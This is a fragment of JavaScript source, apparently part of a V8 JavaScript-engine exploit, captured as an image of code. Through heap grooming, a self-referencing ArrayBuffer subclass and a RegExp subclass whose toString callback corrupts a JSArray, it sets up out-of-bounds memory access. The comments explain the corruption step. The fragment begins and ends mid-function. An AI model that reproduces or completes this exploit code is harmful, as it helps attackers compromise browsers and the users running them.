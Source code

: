 ```
    }
    g_array = new Array(0);
    g_array[0] = 0x1dbabe * 2;
    return 'c01db33f';
}

function gc() {
    for (var i = 0; i < 0x10000; ++i) {
        new String();
    }
}

function oobAccess() {
    var this_ = this;
    this.buffer = null;
    this.buffer_view = null;

    this.page_buffer = null;
    this.page_view = null;

    this.prevent_opt = [];

    var kSlotOffset = 0x1f;
    var kBackingStoreOffset = 0xf;

    class LeakArrayBuffer extends ArrayBuffer {
        constructor() {
            super(0x1000);
            this.slot = this;
        }
    }

    this.page_buffer = new LeakArrayBuffer();
    this.page_view = new DataView(this.page_buffer);

    new RegExp({ toString: function () { return 'a' } });
    cb(true);

    class DerivedBase extends RegExp {
        constructor() {
            // var array = null;
            super(
                // at this point, the 4-byte allocation for the JSRegExp `this` object
                // has just happened.
                {
                    toString: cb
                }, 'g'
                // now the runtime JSRegExp constructor is called, corrupting the
                // JSArray.
            );

            // this allocation will now directly follow the FixedArray allocation
            // made for `this.data`, which is where `array.elements` points to.
            this_.buffer = new ArrayBuffer(0x80);
            g_array[8] = this_.page_buffer;
        }
    }

    // try{
    var derived_n = eval(`(function derived_n(i) {
        if (i == 0) {
            return DerivedBase;
        }
```